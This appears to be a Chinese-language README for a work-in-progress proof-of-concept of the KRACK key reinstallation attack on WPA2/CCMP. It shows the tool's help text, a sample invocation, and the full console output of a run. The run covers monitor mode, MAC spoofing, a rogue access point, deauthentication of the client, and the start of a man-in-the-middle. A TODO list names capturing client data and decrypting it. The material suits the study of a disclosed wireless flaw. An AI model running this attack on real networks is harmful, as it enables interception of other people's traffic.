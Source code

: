 # [工作中] PoC Krack (Key Reinstallation AttaCKs)

使用基于信道的MitM进行Krack攻击的概念证明

## 原理

参考法文文档 [hackndo](http://beta.hackndo.com/krack/)

## 环境

WPA2 with CCMP

## 用法

```
# ./Krack.py -h
usage: Krack.py [-h] [-d] -a AP_NAME -i IFACE_AP -b STA_MAC -j
                IFACE_CLIENT -c CHANNEL

optional arguments:
  -h, --help            显示帮助信息
  -d, --direct          跳过信道和监视设置
  -a ACCESS_POINT, --access_point ACCESS_POINT
                        输入目标AP的SSID
  -i IFACE_AP, --iface_ap IFACE_AP
                        分配给目标AP使用的无线网卡名称
  -b CLIENT, --client CLIENT
                        输入目标STA的MAC地址
  -j IFACE_CLIENT, --iface_client IFACE_CLIENT
                        分配给目标STA使用的无线网卡名称
  -c CHANNEL, --channel CHANNEL
                        选择目标AP正在侦听的信道

# ./Krack.py -a hackndo_ssid_test -i wlan1 -b "ab:cd:0a:0b:11:22" -j wlan0 -c 11
[*] Turning off both interfaces
[*] Setting interface wlan1 on channel 11
[*] Interface wlan1 is on channel 11
[*] Setting interface wlan0 on channel 4
[*] Interface wlan0 is on channel 4
[*] Starting monitor mode for wlan1
[*] Interface wlan1 is now in monitor mode
[*] Starting monitor mode for wlan0
[*] Interface wlan0 is now in monitor mode
[*] Turning on both interfaces
[*] Trying to find hackndo_ssid_test MAC address
[*] MAC Found ! 0e:cc:46:8a:b1:09
[*] Jammer initialized correctly
[*] Sniffing an AP Beacon...
[*] AP Beacon saved!
[*] Sniffing an AP Probe response...
[*] AP Probe response saved!
[*] Updating wlan1 MAC address to ab:cd:0a:0b:11:22 (Client MAC)
[*] wlan1 MAC address update successful
[*] Updating wlan0 MAC address to 0e:cc:46:8a:b1:09 (Real AP MAC)
[*] wlan0 MAC address update successful
[*] Rogue AP started. Sending beacons...
[*] Running main loop
[*] Starting deauth on AP 0e:cc:46:8a:b1:09 (hackndo_ssid_test) and client ab:cd:0a:0b:11:22...
[*] Probe request to our AP
[*] Client authenticated to our AP!
[*] MitM attack has started
[*] Deauth stopped
```

## TODO

- [X] 在deauth后使用CSA (Channel Switch Announcement)让客户端切换信道(查看问题 [#1](https://github.com/Hackndo/krack-poc/issues/1))
- [ ] 保存客户端发送的数据
- [ ] 计数器重新初始化时，用已知的纯文本解密密码
